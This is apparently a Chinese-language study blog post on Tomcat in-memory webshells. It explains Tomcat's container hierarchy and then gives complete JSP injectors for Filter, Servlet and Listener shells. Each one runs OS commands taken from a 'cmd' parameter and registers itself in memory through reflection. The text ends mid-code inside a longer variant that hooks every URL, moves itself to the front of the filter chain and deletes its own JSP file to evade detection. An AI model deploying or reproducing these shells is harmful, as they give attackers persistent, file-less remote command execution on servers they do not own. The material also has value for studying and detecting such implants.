









Github一个很好的内存马项目:

https://github.com/bitterzzZZ/MemoryShellLearn

# Tomcat内存马简介	

Tomcat在封装和管理 Servlet，以及具体处理Request请求时，在内部包含了4个子容器：

```
Engine，实现类为 org.apache.catalina.core.StandardEngine
Host，实现类为 org.apache.catalina.core.StandardHost
Context，实现类为 org.apache.catalina.core.StandardContext
Wrapper，实现类为 org.apache.catalina.core.StandardWrapper
```

这四个字容器实际上是自上向下的包含关系：

**Engine**：最顶层**容器组件**，其下可以包含多个 Host。**Host**：一个 Host 代表一个**虚拟主机**，其下可以包含多个 Context。**Context**：一个 Context 代表一个 **Web 应用**，其下可以包含多个 Wrapper。**Wrapper**：一个 Wrapper 代表一个 **Servlet**。

具体关系如下图:



在web的请求过程中,加载顺序为:

`context-param->listeners->filters->servlets`

> servlets的生命周期开始于Web容器的启动时它就会被载入到Web容器内存中,直到Web容器停止运行或者重新装入servlet时候结束。这里也就是说明,一旦Servlet被装入到Web容器之后,一般是会长久驻留在Web容器之中。

这也就是内存马的厉害之处,曾经的webshell都是以文件的方式进行存储,webshell文件容易被查杀或者检测。而内存马是将木马和恶意后门写入到了内存里面。没有文件落地,会给检测带来巨大麻烦。

# Filter内存马

Filter的加载是与servlets之前的,它会拦截我们的请求,然后进行判断有没有非法请求之类的,如果没有则进行放行,到达Servlet



接下来看一个例子

在web.xml中会进行filter的配置,当我们url访问/demo时,会去查找filter-name为filterDemo对应的class类,这里对应的class类为filter.filterDemo



然后这里主要关注doFilter方法,因为这里会把我们的请求传给doFilter方法,对请求进行一个过滤。



那么,如果我们在doFilter方法中写下一段恶意代码,就相当于我们每次url请求/demo时都会运行这段恶意代码。

接下来介绍一些关键名词:

## 关键名词

**FilterDefs**：存放FilterDef的数组 ，**FilterDef** 中存储着我们过滤器名，过滤器实例，作用 url 等基本信息

**FilterConfigs**：存放filterConfig的数组，在 **FilterConfig** 中主要存放 FilterDef 和 Filter对象等信息

**FilterMaps**：存放FilterMap的数组，在 **FilterMap** 中主要存放了 FilterName 和 对应的URLPattern

**FilterChain**：过滤器链，该对象上的 doFilter 方法能依次调用链上的 Filter

**WebXml**：存放 web.xml 中内容的类

**ContextConfig**：Web应用的上下文配置类

**StandardContext**：Context接口的标准实现类，一个 Context 代表一个 Web 应用，其下可以包含多个 Wrapper

**StandardWrapperValve**：一个 Wrapper 的标准实现类，一个 Wrapper 代表一个Servlet

这里具体请求调试流程可以看:http://wjlshare.com/archives/1529#Servlet

filter调用链大概流程图:




通过上面的流程，可知所有的`filter`信息都是从`context（StandardContext）`获取到的，所以假如可以获取到这个`context`就可以通过反射的方式修改`filterMap`和`filterConfig`从而达到动态注册filter的目的。

## 动态加载filter

filtershell.jsp:

```jsp
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "demo";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){

        //filter部分写好
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                //这里写上我们后门的主要代码
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd.exe","/c",req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    process.destroy();
                    return;
                }
                //别忘记带这个，不然的话其他的过滤器可能无法使用
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());

        // 将filterDef添加到filterDefs中
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        //拦截的路由规则，/* 表示拦截任意路由
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("注入成功");
    }
%>
```

关于Tomcat的三个content:

https://mp.weixin.qq.com/s/BrbkTiCuX4lNEir3y24lew

### ServletContext

**Servlet上下文**又叫做:**ServletContext**。

动态注册filter就需要几个添加filter相关的函数，ServletContext可以满足这个条件

**javax.servlet.ServletContext**

ServletContext的方法中有**addFilter**、**addServlet**、**addListener**方法，即添加**Filter**、**Servlet**、**Listener**

### ApplicationContext

在Tomcat中**org.apache.catalina.core.ApplicationContext**中包含一个ServletContext接口的实现




### StandardContext

我们的最终目的,可以通过反射来修改filterMap和filterConfig

## 内存马的实现

我们需要修改filterMaps,configs等配置,这些参数在StandardContext对象中。

### 如何获取StandardContext

通过当前 request 对象获取 ServletContext 。

```
request.getSession().getServletContext();
```

因为ServletContext是一个接口,这里获取到的实际上是`ApplicationContextFacade`对象。可以通过该对象获取ApplicationContext



ApplicationContext中可以获取到`StandardContext`



实现代码:

```java
	ServletContext servletContext = request.getSession().getServletContext();
    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
```

然后通过反射修改filterConfigs,filterMap等成员就可以了。可以参考一下jsp文件中的代码。

# Servlet内存马


ServletShell.jsp

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import = "org.apache.catalina.core.ApplicationContext"%>
<%@ page import = "org.apache.catalina.core.StandardContext"%>
<%@ page import = "javax.servlet.*"%>
<%@ page import = "java.io.IOException"%>
<%@ page import = "java.lang.reflect.Field"%>


<%
    class ServletDemo implements Servlet{
        @Override
        public void init(ServletConfig config) throws ServletException {}
        @Override
        public String getServletInfo() {return null;}
        @Override
        public void destroy() {}    public ServletConfig getServletConfig() {return null;}

        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            if (cmd != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream()));
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
                servletResponse.getOutputStream().flush();
                servletResponse.getOutputStream().close();
                return;
            }
        }
    }
%>


<%
    ServletContext servletContext =  request.getSession().getServletContext();
    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
    ServletDemo demo = new ServletDemo();
    org.apache.catalina.Wrapper demoWrapper = standardContext.createWrapper();

//设置Servlet名等
    demoWrapper.setName("xyz");
    demoWrapper.setLoadOnStartup(1);
    demoWrapper.setServlet(demo);
    demoWrapper.setServletClass(demo.getClass().getName());
    standardContext.addChild(demoWrapper);

//设置ServletMap
    standardContext.addServletMapping("/xyz", "xyz");
    out.println("inject servlet success!");
%>
```

差不多的操作,写一个恶意的Servlet(恶意代码在service方法中),然后获取ApplicationContext,接着反射添加Servlet。

servlet型的内存马无法使所有请求都经过恶意代码，只有访问我们设定的url才能触发

# listener内存马

Listener是javaweb中的监听器，监听某一个java对象的方法调用或属性改变，当被监听对象发生上述事件后，监听器某个方法立即被执行。

Listener内存马是通过动态注册一个Listener，其监听到某个参数传入时，则将参数用于命令执行，由于是动态注册的，所以这个Listener没有文件实体，存在于内存中，随着tomcat重启而消失。

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="javax.servlet.*" %>
<%@ page import="javax.servlet.annotation.WebServlet" %>
<%@ page import="javax.servlet.http.HttpServlet" %>
<%@ page import="javax.servlet.http.HttpServletRequest" %>
<%@ page import="javax.servlet.http.HttpServletResponse" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>

<%
class S implements ServletRequestListener{
    @Override
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {
        
    }
    @Override
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        String cmd = servletRequestEvent.getServletRequest().getParameter("cmd");
        if(cmd != null){
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {}
        }
    }
}
%>

<%
ServletContext servletContext =  request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
S servletRequestListener = new S();
standardContext.addApplicationEventListener(servletRequestListener);
out.println("inject success");
%>
```

随便访问个界面



# 其他

上面的流程大概分为这三步:

获取request->反射获取StandardContext对象->反射修改成员

我们只要获取到了request,就可以完成我们的一系列流程。

但是由于很多框架对于Serlvet进行了封装,不同框架实现不同,同一框架的不同版本实现也可能不同，因此我们无法利用一种简单通用的

方法去获取当前请求的response和request。

这里的话其实还没有进行学习,就简单记录一下

### 方法一:**从线程中获取StandardContext**@

相关文章:https://blog.szfszf.top/article/49/

https://mp.weixin.qq.com/s?__biz=MzI0NzEwOTM0MA==&mid=2652474966&idx=1&sn=1c75686865f7348a6b528b42789aeec8&scene=21#wechat_redirect

filterShell.jsp:

```jsp
<%@ page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %>
<%@page language="java" contentType="text/html; charset=UTF-8"
        pageEncoding="UTF-8"%>

<%@page import="com.sun.org.apache.xalan.internal.xsltc.DOM"%>
<%@page import="com.sun.org.apache.xalan.internal.xsltc.TransletException"%>
<%@page import="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"%>
<%@page import="com.sun.org.apache.xml.internal.dtm.DTMAxisIterator"%>
<%@page import="com.sun.org.apache.xml.internal.serializer.SerializationHandler"%>
<%@page import="java.io.File"%>
<%@page import="java.io.IOException"%>
<%@page import="java.lang.reflect.Method"%>
<%@page import="javax.servlet.Filter"%>
<%@page import="javax.servlet.FilterChain"%>
<%@page import="javax.servlet.FilterConfig"%>
<%@page import="javax.servlet.ServletContext" %>
<%@page import="javax.servlet.ServletException"%>

<%@page import="javax.servlet.ServletRequest" %>
<%@page import="javax.servlet.ServletResponse" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>

<%!
    /**
     * webshell命令参数名
     */
    private final String cmdParamName = "cmd";
    /**
     * 建议针对相应业务去修改filter过滤的url pattern
     */
    private final static String filterUrlPattern = "/jrxnm";
    private final static String filterName = "testfilter";

    public class TomcatEchoInject  extends AbstractTranslet {

        public void init(){
            try {
                //修改 WRAP_SAME_OBJECT 值为 true
                Class c = Class.forName("org.apache.catalina.core.ApplicationDispatcher");
                java.lang.reflect.Field f = c.getDeclaredField("WRAP_SAME_OBJECT");
                java.lang.reflect.Field modifiersField = f.getClass().getDeclaredField("modifiers");
                modifiersField.setAccessible(true);
                modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
                f.setAccessible(true);
                if (!f.getBoolean(null)) {
                    f.setBoolean(null, true);
                }

                //初始化 lastServicedRequest
                c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
                f = c.getDeclaredField("lastServicedRequest");
                modifiersField = f.getClass().getDeclaredField("modifiers");
                modifiersField.setAccessible(true);
                modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
                f.setAccessible(true);
                if (f.get(null) == null) {
                    f.set(null, new ThreadLocal());
                }

                //初始化 lastServicedResponse
                f = c.getDeclaredField("lastServicedResponse");
                modifiersField = f.getClass().getDeclaredField("modifiers");
                modifiersField.setAccessible(true);
                modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
                f.setAccessible(true);
                if (f.get(null) == null) {
                    f.set(null, new ThreadLocal());
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

        }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
                throws TransletException {

        }
    }


    public class TomcatShellInject extends AbstractTranslet implements Filter {

        public Boolean init(String filename) {
            try {
                javax.servlet.ServletContext servletContext = getServletContext();
                if (servletContext != null) {
                    Class c = Class.forName("org.apache.catalina.core.StandardContext");
                    Object standardContext = null;
                    //判断是否已有该名字的filter，有则不再添加
                    if (servletContext.getFilterRegistration(filterName) == null) {
                        //遍历出标准上下文对象
                        for (; standardContext == null; ) {
                            java.lang.reflect.Field contextField = servletContext.getClass().getDeclaredField("context");
                            contextField.setAccessible(true);
                            Object o = contextField.get(servletContext);
                            if (o instanceof javax.servlet.ServletContext) {
                                servletContext = (javax.servlet.ServletContext) o;
                            } else if (c.isAssignableFrom(o.getClass())) {
                                standardContext = o;
                            }
                        }
                        if (standardContext != null) {
                            //修改状态，要不然添加不了
                            java.lang.reflect.Field stateField = org.apache.catalina.util.LifecycleBase.class
                                    .getDeclaredField("state");
                            stateField.setAccessible(true);
                            stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTING_PREP);
                            //创建一个自定义的Filter马
                            Filter mainfilter = new TomcatShellInject();
                            //添加filter马
                            javax.servlet.FilterRegistration.Dynamic filterRegistration = servletContext
                                    .addFilter(filterName, mainfilter);
                            filterRegistration.setInitParameter("encoding", "utf-8");
                            filterRegistration.setAsyncSupported(false);
                            filterRegistration
                                    .addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false,
                                            new String[]{"/*"});
                            //状态恢复，要不然服务不可用
                            if (stateField != null) {
                                stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTED);
                            }

                            if (standardContext != null) {
                                //生效filter
                                Method filterStartMethod = org.apache.catalina.core.StandardContext.class
                                        .getMethod("filterStart");
                                filterStartMethod.setAccessible(true);
                                filterStartMethod.invoke(standardContext, null);

                                Class ccc = null;
                                try {
                                    ccc = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                                } catch (Throwable t){}
                                if (ccc == null) {
                                    try {
                                        ccc = Class.forName("org.apache.catalina.deploy.FilterMap");
                                    } catch (Throwable t){}
                                }
                                // 把filter插到第一位

                                Method m = c.getMethod("findFilterMaps");
                                Object[] filterMaps = (Object[]) m.invoke(standardContext);
                                Object[] tmpFilterMaps = new Object[filterMaps.length];
                                int index = 1;
                                for (int i = 0; i < filterMaps.length; i++) {
                                    Object o = filterMaps[i];
                                    m = ccc.getMethod("getFilterName");
                                    String name = (String) m.invoke(o);
                                    if (name.equalsIgnoreCase(filterName)) {
                                        tmpFilterMaps[0] = o;
                                    } else {
                                        tmpFilterMaps[index++] = filterMaps[i];
                                    }
                                }
                                for (int i = 0; i < filterMaps.length; i++) {
                                    filterMaps[i] = tmpFilterMaps[i];
                                }
                            }
                        }
                    }
                    //删除文件
                    new File(servletContext.getRealPath(filename)).delete();
                    return true;
                }
                else{
                    return false;
                }
            } catch (Exception e) {
                e.printStackTrace();
                return false;
            }
        }

        public Boolean init2(String filename, HttpServletRequest request) {
            try {
                javax.servlet.ServletContext servletContext = request.getServletContext();;
                if (servletContext != null) {
                    Class c = Class.forName("org.apache.catalina.core.StandardContext");
                    Object standardContexts = null;
                    //判断是否已有该名字的filter，有则不再添加
                    if (servletContext.getFilterRegistration(filterName) == null) {
                        //遍历出标准上下文对象
                        for (; standardContexts == null; ) {
                            java.lang.reflect.Field contextField = servletContext.getClass().getDeclaredField("context");
                            contextField.setAccessible(true);
                            Object o = contextField.get(servletContext);
                            if (o instanceof javax.servlet.ServletContext) {
                                servletContext = (javax.servlet.ServletContext) o;
                            } else if (c.isAssignableFrom(o.getClass())) {
                                standardContexts = o;
                            }
                        }
                        StandardContext standardContext = (StandardContext) standardContexts;
                        if (standardContext !=null) {

                            Filter filter = new TomcatShellInject();
                            FilterDef filterDef = new FilterDef();
                            filterDef.setFilterName(filterName);
                            filterDef.setFilterClass(filter.getClass().getName());
                            filterDef.setFilter(filter);

                            standardContext.addFilterDef(filterDef);

                            FilterMap m = new FilterMap();
                            m.setFilterName(filterDef.getFilterName());
                            m.setDispatcher(DispatcherType.REQUEST.name());
                            m.addURLPattern(filterUrlPattern);

                            standardContext.addFilterMapBefore(m);

                            Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
                            constructor.setAccessible(true);
                            FilterConfig filterConfig = (FilterConfig) constructor.newInstance(standardContext, filterDef);

                            Field fc = StandardContext.class.getDeclaredField("filterConfigs");
                            fc.setAccessible(true);
                            HashMap data = (HashMap) fc.get(standardContext);
                            data.put(filterName, filterConfig);
                            fc.set(standardContext, data);
                        }
                    }
                    //删除文件
                    new File(servletContext.getRealPath(filename)).delete();
                    return true;
                }
                else{
                    return false;
                }
            } catch (Exception e) {
                e.printStackTrace();
                return false;
            }
        }


        private ServletContext getServletContext()
                throws NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
            ServletRequest servletRequest = null;
            /*shell注入，前提需要能拿到request、response等*/
            Class c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
            java.lang.reflect.Field f = c.getDeclaredField("lastServicedRequest");
            f.setAccessible(true);
            ThreadLocal threadLocal = (ThreadLocal) f.get(null);
            //不为空则意味着第一次反序列化的准备工作已成功
            if (threadLocal != null && threadLocal.get() != null) {
                servletRequest = (ServletRequest) threadLocal.get();
            }
            //如果不能获取到request，则换一种方式尝试获取

            //spring获取法1
            if (servletRequest == null) {
                try {
                    c = Class.forName("org.springframework.web.context.request.RequestContextHolder");
                    Method m = c.getMethod("getRequestAttributes");
                    Object o = m.invoke(null);
                    c = Class.forName("org.springframework.web.context.request.ServletRequestAttributes");
                    m = c.getMethod("getRequest");
                    servletRequest = (ServletRequest) m.invoke(o);
                } catch (Throwable t) {}
            }
            if (servletRequest != null)
                return servletRequest.getServletContext();

            //spring获取法2
            try {
                c = Class.forName("org.springframework.web.context.ContextLoader");
